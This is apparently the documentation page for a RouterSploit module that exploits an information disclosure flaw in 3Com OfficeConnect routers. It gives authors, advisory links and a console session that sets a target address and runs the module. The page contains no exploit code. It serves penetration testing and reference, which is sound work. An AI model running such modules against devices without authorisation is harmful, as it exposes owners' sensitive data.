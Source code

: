 # 3Com OfficeConnect Info Disclosure

## Description
Exploits 3Com OfficeConnect information disclosure vulnerability. If the target is vulnerable it is possible to read sensitive information.

## Authors
* Luca Carettoni <luca.carettoni[at]ikkisoft.com> # vulnerability discovery
* iDefense # vulnerability discovery
* Marcin Bury <marcin.bury[at]reverse-shell.com> # routersploit module

## References
* [http://old.sebug.net/paper/Exploits-Archives/2009-exploits/0902-exploits/LC-2008-05.txt](http://old.sebug.net/paper/Exploits-Archives/2009-exploits/0902-exploits/LC-2008-05.txt)
* [http://seclists.org/vulnwatch/2005/q1/42](http://seclists.org/vulnwatch/2005/q1/42)

## Vulnerable devices
* 3Com OfficeConnect

## Usage
```
rsf > use exploits/3com/officeconnect_info_disclosure
rsf (3Com OfficeConnect Info Disclosure) > show options

Target options:

   Name       Current settings     Description
   ----       ----------------     -----------
   target                          Target address e.g. http://192.168.1.1
   port       80                   Target port


rsf (3Com OfficeConnect Info Disclosure) > set target 192.168.1.1
[+] {'target': '192.168.1.1'}
rsf (3Com OfficeConnect Info Disclosure) > run
[*] Running module...
```
